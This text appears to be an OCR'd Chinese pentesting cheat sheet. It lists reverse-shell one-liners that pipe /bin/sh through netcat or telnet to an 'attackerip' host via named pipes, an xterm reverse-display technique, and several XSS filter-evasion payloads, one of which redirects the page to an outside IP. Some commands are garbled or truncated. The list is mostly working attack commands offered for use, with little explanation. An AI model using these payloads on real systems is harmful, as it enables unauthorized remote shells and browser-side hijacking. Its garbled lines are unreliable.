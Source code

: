 # 如果 -e 参数被禁用，可以尝试以下命令
# mknod backpipe p && nc attackerip 443 0<backpipe | /bin/bash 1>backpipe
/bin/sh | nc attackerip 443
rm -f /tmp/p; mknod /tmp/p p && nc attackerip 4443 0/tmp/

# 如果你安装错了 netcat 的版本，请尝试以下命令
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc attackerip >/tmp/f
TELNET 反弹 Shell
# 如果 netcat 不可用或者 /dev/tcp
mknod backpipe p && telnet attackerip 443 0<backpipe | /bin/bash 1>backpipe
XTERM 反弹 Shell
# http://baike.baidu.com/view/418628.htm
# 开启 X 服务器 (:1 – 监听 TCP 端口 6001)
apt-get install xnest
Xnest :1

# 记得授权来自目标 IP 的连接
xterm -display 127.0.0.1:1

# 授权访问
xhost +targetip

# 在目标机器上连接回我们的 X 服务器
xterm -display attackerip:1
/usr/openwin/bin/xterm -display attackerip:1
or
$ DISPLAY=attackerip:0 xterm
XSS 备忘录
https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet
("< iframes > src=http://IP:PORT </ iframes >")

<script>document.location=http://IP:PORT</script>

';alert(String.fromCharCode(88,83,83))///';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))///";alert(String.fromCharCode(88,83,83))//–></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>

";!–"<XSS>=&amp;amp;{()}
